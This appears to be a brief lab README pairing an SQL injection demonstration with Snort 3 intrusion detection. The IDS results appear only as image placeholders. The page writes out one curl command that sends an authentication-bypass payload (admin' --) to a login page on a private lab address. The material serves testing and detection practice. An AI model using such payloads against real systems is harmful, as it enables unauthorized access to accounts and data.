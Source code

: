 ![alt text](/images/image-2.png)

## Kali Linux commands to initiate SQLi attack
```
curl -X POST -d "username=admin' -- &password=anything" http://192.168.27.136/login.php
```

## Snort 3 acting as Intrusion Detection System (IDS)

![alt text](/images/image-1.png)

![alt text](/images/image.png)
